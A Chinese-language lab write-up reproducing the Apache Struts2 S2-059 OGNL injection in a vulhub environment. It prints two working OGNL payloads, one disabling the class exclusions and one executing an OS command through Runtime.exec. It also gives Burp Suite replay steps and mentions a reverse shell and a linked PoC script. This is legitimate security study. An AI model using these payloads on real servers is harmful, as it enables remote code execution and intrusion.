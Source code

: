 # Struts2_059_远程代码执行

###### by ADummy

### 0x00利用路线

​			burpuite抓包--->修改payload--->重放包--->代码执行

### 0x01漏洞介绍

​			Apache Struts框架, 会对某些特定的标签的属性值，比如id属性进行二次解析，所以攻击者可以传递将在呈现标签属性时再次解析的OGNL表达式，造成OGNL表达式注入。从而可能造成远程执行代码。

​			影响版本

  		2.0.0 - 2.5.20

### 0x02漏洞复现

#### payload1：

?id=%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}

#### payload2：

?id=%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('touch /test'))}





​			登录界面

![S2_059_rce_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_059_rce_1.png)



​			Burpsuite抓包，发送第一个payload

![S2_059_rce_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_059_rce_2.png)

​				

​			Burpsuite抓包，发送第二个payload

![S2_059_rce_3](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_059_rce_3.jpg)







​				docker进入容器，查看tmp目录，生成test文件，命令成功执行。

![S2_059_rce_4](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_059_rce_4.png)



(PS：代码执行后无回显，利用bash反弹shell需要base64编码,，参考了 **hatjwe**师傅的文章)

base64在线编码： http://www.jackson-t.ca/runtime-exec-payloads.html 

poc：https://github.com/ADummmy/vulhub_Writeup/tree/main/code/struts2_059_poc.py

### 0x03总结

​				这是笔者的第三篇文章，复现了大概一天左右，网络上文章质量参差不齐，刚入门导致代码审计看不懂，对新手友好度太差，要么就是上来一段payload和poc，都不告诉你，具体流程是什么，踩了很多坑。不过在此过程中，本人也学到了很多。

### 0x04参考资料

https://my.oschina.net/u/4593034/blog/4693589